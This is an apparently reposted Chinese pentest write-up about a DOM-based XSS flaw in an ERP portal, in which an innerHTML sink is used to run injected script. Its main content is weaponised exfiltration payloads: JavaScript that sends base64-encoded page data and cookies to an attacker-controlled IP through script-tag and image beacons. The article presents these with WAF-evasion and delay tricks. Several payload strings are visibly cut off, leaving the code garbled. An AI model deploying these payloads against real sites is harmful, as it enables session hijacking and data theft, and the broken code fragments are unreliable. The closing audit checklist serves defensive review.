








# DOM型XSS深度渗透实战-先知社区

> **来源**: https://xz.aliyun.com/news/18264  
> **文章ID**: 18264

---

### 声明

本文章所分享内容仅用于网络安全相关的技术讨论和学习，注意，切勿用于违法途径，所有渗透测试都需要获取授权，违者后果自行承担，与本文章及作者无关，请谨记守法。

# 1. 概述

在一次针对甲方ERP系统的渗透测试中，我发现了一个隐秘的DOM型XSS漏洞。这种表面无害的漏洞通过巧妙构造的Payload，能够绕过同源策略、突破CSP防御，最终实现敏感数据自动化收割并发送到攻击者服务器。本文将完整呈现漏洞从发现到武器化的全路径攻击链。

# 2. 正文

#### 0x01 漏洞发现：静态代码审计





**漏洞代码定位**:

```
// 高危渲染逻辑（核心系统模块）
	function getAppProps() {
		web.portal.appProps = skysz.ajax.getSync("./web/portal/appProps");
		skysz.$("app.name").innerHTML = web.portal.appProps.appName;
		document.title = skysz.$("app.name").innerText;
```

**漏洞成因分析**：

* 信任后端返回数据，未做消毒处理
* 使用.innerHTML渲染不可控内容
* API响应头缺失X-Content-Type-Options: nosniff

**致命漏洞链：**  
后端JSON接口 → 前端innerHTML渲染 → DOM解析执行  
 当接口返回appName: ''时，立即触发XSS



#### 0x02 漏洞验证

```
// 劫持接口返回实现弹窗验证
Object.defineProperty(web.portal, 'appProps', {  get: () => ({ appName: '' })});

//触发弹窗
getAppProps();
```



#### 0x03 数据外泄多种姿势

**1、JSONP协议（跨域数据劫持）**



```
Object.defineProperty(web.portal, 'appProps', {
  get: () => ({
    appName: ``
  })
});

//创新方案：伪装合法的CDN请求规避WAF检测
```

**2、图片信标突破（隐蔽+长度优化）**



```
<JAVASCRIPT>
Object.defineProperty(web.portal, 'appProps', {
  get: () => ({
    appName: ` {
          document.head.appendChild(jsonpScript);
          document.body.appendChild(beaconImg);
        }, 2000); // 延时触发绕过行为监控
      })();">`
  })
});
```

**3、****混合传输模式：随机切换JSONP/Image**



```
Object.defineProperty(web.portal, 'appProps', {
  get: () => ({
    appName: ` {
          const s = document.createElement('script');
          s.src = 'http://10.191.129.67:8000/j?d='+btoa(JSON.stringify(payload))+'&t='+Date.now();
        };
        
        const imgFn = () => {
          new Image().src = 'http://10.191.129.67:8000/i.gif?c='+encodeURIComponent(payload.cookie);
        };
        
        // 随机化传输策略
        Math.random() > 0.5 ? jsonpFn() : imgFn();
      })();">`
  })
});

```

**4、数据外带核心总结**



# 3. 总结

**漏洞挖掘规则**:

```
1. **动态渲染点追踪**：
   - 全局搜索`.innerHTML`、`.outerHTML`、`document.write`
   - 检查Vue/React的`v-html`和`dangerouslySetInnerHTML`

2. **API响应可控性验证**：
   - 修改后端返回的JSON内容
   - 测试XSS向量在不同上下文的触发情况

3. **同源策略突破路径**：
   ```javascript
   // 四重渗透路径检测
   const CHANNELS = [
     'fetch',
     'WebSocket',
     'navigator.sendBeacon',
     'new Image()'
   ];
```

# 4. 结语

愿诸君以深度防御为盾，以持续审计为刃，在代码构建的数字迷宫中，搭建不可逾越的安全长城。
